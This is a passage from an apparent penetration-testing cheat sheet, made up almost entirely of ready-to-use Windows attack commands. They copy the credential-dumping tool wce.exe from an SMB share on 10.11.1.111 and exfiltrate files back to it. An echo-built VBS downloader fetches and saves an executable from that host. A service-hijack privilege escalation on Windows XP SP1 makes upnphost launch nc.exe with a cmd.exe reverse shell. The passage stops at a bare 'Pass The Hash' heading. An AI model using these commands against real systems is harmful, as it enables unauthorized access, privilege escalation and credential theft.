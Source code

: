 ```bash
Download: copy \\10.11.1.111\Lab\wce.exe . 
Upload: copy wtf.jpg \\10.11.1.111\Lab

```

### Windows download with VBS

````
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe
````

### Windowss XP SP1 PrivEsc

```bash
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.1.111 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

### Pass The Hash
